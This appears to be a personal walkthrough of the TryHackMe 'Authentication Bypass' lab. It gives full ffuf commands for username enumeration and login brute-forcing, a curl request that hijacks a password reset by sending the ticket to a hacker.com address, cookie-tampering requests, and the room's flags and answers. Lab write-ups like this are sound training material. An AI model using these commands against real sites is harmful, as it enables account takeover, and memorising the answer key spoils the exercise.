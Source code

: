 #+title:      Authentication Bypass
#+date:       [2022-09-19 Mon 08:54]
#+filetags:   :room:tryhackme:
#+identifier: 20220919T085441

* Link to the room
[[https://tryhackme.com/room/authenticationbypass][authenticationbypass]]
* Brief
No answer needed.
* Username Enumeration
Website error message are greate resources for collect a list of valid username.
The [[http://machine-ip/customers/signup][signup page]] of the ACME IT support site can tell us if a username is valid or not,
i.e. try to signup with an already existing account, like ~admin~, the page will respond ~An account with this username already exists~.
With [[denote:20220915T155935][ffuf]] it's possible to brute force a list of valid username.
#+begin_src shell
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.56/customers/signup -mr "username already exists"
#+end_src
I get the following entries:
#+begin_src ascii
admin
robert
simon
steve
#+end_src
** Answer 1
What is the username starting with si*** ? #+begin_quote
simon
#+end_quote
** Answer 2
What is the username starting with st*** ?
#+begin_quote
steve
#+end_quote
** Answer 3
What is the username starting with ro**** ?
#+begin_quote
robert
#+end_quote
* Brute Force
Using the list of user of the previous section we can try to brute force the [[http://machine-ip/customers/login][login]] of the ACME IT website.
With [[denote:20220915T155935][ffuf]] it's possible to brute force the login, before running the command I putted the username into a file.
#+begin_src shell
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.56/customers/login -fc 200
#+end_src
The only match is
#+begin_quote
Steve,thunder
#+end_quote
** Answer 1
What is the valid username and password (format: username/password)?
#+begin_quote
steve/thunder
#+end_quote
* Logical Flaw
We are going to exploit the [[http://10.10.47.56/customers/reset][reset page]], using [[denote:20220915T161056][curl]].
#+begin_src shell
user@tryhackme$ curl 'http://10.10.47.56/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
#+end_src
Adding ~&email=not-email-robert-email~ we can manipulate were the ticket is sended, remember that PHP give more precedece at the requests field, furthermore we have seen in the previous room (on this path) that the website is using PHP.
#+begin_src shell
user@tryhackme$ curl 'http://10.10.47.56/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=not-robert-email@hacker.com'
#+end_src
Flag:
#+begin_quote
THM{AUTH_BYPASS_COMPLETE}
#+end_quote
** Answer 1
What is the flag from Robert's support ticket?
#+begin_quote
THM{AUTH_BYPASS_COMPLETE}
#+end_quote
* Cookie Tampering
Examining cookie on the session can have multiple outcome.
** Curl request 1
#+begin_src shell
curl http://10.10.47.56/cookie-test
#+end_src
*** Result
#+begin_quote
Not Logged In
#+end_quote
** Curl request 2
#+begin_src shell
curl -H "Cookie: logged_in=true; admin=false" http://10.10.47.56/cookie-test
#+end_src
*** Result
#+begin_quote
Logged In As A User
#+end_quote
** Curl request 3
#+begin_src shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.47.56/cookie-test
#+end_src
*** Result
#+begin_quote
Logged In As A Admin - THM{COOKIE_TAMPERING}
#+end_quote
** Hashing
Sometimes the cookie can be hashed, in this case we can use [[denote:20220919T095455][crackstation]].
** Answer 1
What is the flag from changing the plain text cookie values?
#+begin_quote
THM{COOKIE_TAMPERING}
#+end_quote
** Answer 2
What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
#+begin_quote
463729
#+end_quote
** Answer 3
What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
#+begin_quote
THM{BASE64_ENCODING}
#+end_quote
** Answer 4
Encode the following value using base64 {"id":1,"admin":true}
#+begin_quote
eyJpZCI6MSwiYWRtaW4iOnRydWV9
#+end_quote
